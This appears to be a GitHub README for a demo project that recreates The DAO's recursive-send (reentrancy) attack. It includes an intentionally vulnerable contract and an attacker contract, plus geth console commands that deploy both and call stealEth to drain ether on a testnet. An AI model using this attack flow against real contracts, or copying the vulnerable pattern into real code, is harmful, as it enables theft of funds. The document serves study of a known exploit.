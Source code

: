 # mock-dao-hack
I wanted to recreate a recurisive send exploit similar to the one used by an attacker to drain "The DAO". I wrote an extremely simplified DAO contract (`dumbDAO.sol`) which is vulnerable to this hack. Included is an attacker contract (`attacker.sol`) which, if executed correctly will drain the dumbDAO contract of its ether.

#Running the exploit
Spin up a new geth node and console on the testnet or a privatenet (would not recommend trying this on the main Ethereum blockchain for obvious reasons). I've included a shell script called `generatejs.sh` which you can use to automatically compile the solidity contract code and create a deployment javascript file for you to load into your console.

    ./generatejs.sh dumbDAO.sol

If this runs correctly it should output a `loadScript` function call with the directory to the deployment js file to run as a parameter:

    loadScript('/Path/to/your/ws/mock-dao-hack/contracts/deploy_dumbDAO.js');
 
You should be able to copy and paste this straight into your geth console to deploy the contract. Once it is mined you'll see a log message confirming that the contract mined correctly. The contract javascript var is its name (`dumbDAO`). Deploy both contracts (doesn't really matter what order).

Once they are both deployed, lets set a few things up before executing the exploit...
Optional: run the event listener javascript file - sometimes its helpful to have feedback on the javascript console about which events are runnning:

        loadScript('/Path/to/your/ws/mock-dao-hack/events.js');

First, buy some DAO tokens as an innocent investor (adjust `eth.accounts[0]` as necessary).

    //buy 100 ether worth of DAO tokens
    dumbDAO.buyTokens({from:eth.accounts[0],value:web3.toWei(100),gas:3000000});
    
    //After that transaction has been mined, check to make sure the tokens were appropriately assigned
    web3.fromWei(dumbDAO.balances(eth.accounts[0]));
    //and check on the balance of the contract itself
    web3.fromWei(eth.getBalance(dumbDAO.address));

Next lets prepare the attacker contract:

    attacker.setDAOAddress(dumbDAO.address,{from:eth.accounts[0],gas:3000000});
    attacker.fundMe({from:eth.accounts[0],value:web3.toWei(5),gas:3000000});
    attacker.buyDAOTokens(web3.toWei(5),{from:eth.accounts[0],gas:4000000});
    
    //check Token balance for attacker
    web3.fromWei(dumbDAO.balances(attacker.address));
    
The attacker contract should now be a token holder with 5 ether worth of DAO tokens. To execute the exploit...

    attacker.stealEth(web3.toWei(5),{from:eth.coinbase,gas:4000000})

Check the balances of both contracts as well as the balances of the innocent investor...the DAO now has less ether than it thinks it has.    
